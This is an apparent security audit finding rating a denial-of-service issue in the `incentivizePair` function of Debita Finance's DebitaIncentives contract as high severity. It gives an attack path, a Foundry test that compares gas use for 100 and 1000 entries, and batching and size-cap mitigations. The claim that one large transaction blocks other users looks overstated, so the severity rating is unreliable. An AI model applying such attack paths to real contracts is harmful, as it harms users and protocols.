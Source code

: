 Dry Ebony Hyena

High

# [H-2]: `incentivizePair` is vulnerable to DoS attack due to unbounded `principles` array length

### Summary

In `incentivizePair` function the `principles` array is passed as a parameter. A `for` loop iterates over the `principles` array of an unbounded length which can result in an excessive gas consumption, essentially filling up the gas limit for the current block and preventing regular users of using the functionality and transferring their tokens.

### Root Cause

- In `DebitaIncentives.sol:225` the `principles` array is passed as a parameter.
https://github.com/sherlock-audit/2024-11-debita-finance-v3/blob/main/Debita-V3-Contracts/contracts/DebitaIncentives.sol?plain=1#L225 
- There aren't any limitations or caps on the length of the `principles` array.
- The `principles` array full length is used in a `for` loop iterations.

### Internal pre-conditions

_No response_

### External pre-conditions

_No response_

### Attack Path

1. A malicious user sends a transaction with a large  `principles`  array that causes the gas consumption to be much higher than typical transactions.
2. The transaction fills the gas limit for the current block, meaning there is no gas left for any other transactions.
3. The regular user’s transaction fails because the block is already full.

### Impact

The `incentivizePair` functionality is blocked and regular users will not be able to incentivize breaking the intended protocol functionality.

### PoC

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.24;

import {Test, console} from "forge-std/Test.sol";
import {DebitaIncentives} from "../src/DebitaIncentives.sol";
import {DynamicData} from "./interfaces/DynamicData.sol";

contract DebitaIncentivesDoS is Test {
    DebitaIncentives public debitaIncentivesContract;
    DynamicData public allDynamicData;

    function setUp() public {
        allDynamicData = new DynamicData();
        debitaIncentivesContract = new DebitaIncentives();
    }

    function testIncentivizePairConsumesMoreGasWithLongerPrinciplesSizeArraylength()
        public
    {
        uint firstSize = 100;
        uint secondSize = 1000;

        address[] memory principlesFirst = allDynamicData
            .getDynamicAddressArray(firstSize);
        address[] memory incentiveTokenFirst = allDynamicData
            .getDynamicAddressArray(firstSize);
        bool[] memory lendIncentivizeFirst = allDynamicData.getDynamicBoolArray(
            firstSize
        );
        uint[] memory amountsFirst = allDynamicData.getDynamicUintArray(
            firstSize
        );
        uint[] memory epochs = allDynamicData.getDynamicUintArray(firstSize);

        uint gasStartFirst = gasleft();

        debitaIncentivesContract.incentivizePair(
            principlesFirst,
            incentiveTokenFirst,
            lendIncentivizeFirst,
            amountsFirst,
            epochs
        );

        uint gasCostFirst = gasStartFirst - gasleft();

        address[] memory principlesSecond = allDynamicData
            .getDynamicAddressArray(secondSize);
        address[] memory incentiveTokenSecond = allDynamicData
            .getDynamicAddressArray(secondSize);
        bool[] memory lendIncentivizeSecond = allDynamicData
            .getDynamicBoolArray(secondSize);
        uint[] memory amountsSecond = allDynamicData.getDynamicUintArray(
            secondSize
        );
        uint[] memory epochsSecond = allDynamicData.getDynamicUintArray(
            secondSize
        );

        uint gasStartSecond = gasleft();

        debitaIncentivesContract.incentivizePair(
            principlesSecond,
            incentiveTokenSecond,
            lendIncentivizeSecond,
            amountsSecond,
            epochsSecond
        );

        uint gasCostSecond = gasStartSecond - gasleft();

        // Example costs:
        // gasCostFirst =   111314
        // gasCostSecond = 1317793
        console.log(gasCostFirst, gasCostSecond);

        assert(gasCostSecond > gasCostFirst);
    }
}
```

### Mitigation

- Process the array of `principles` in smaller batches using multiple calls to prevent excessive gas consumption.
- Limit the size of `principles` array through a maximum allowed size.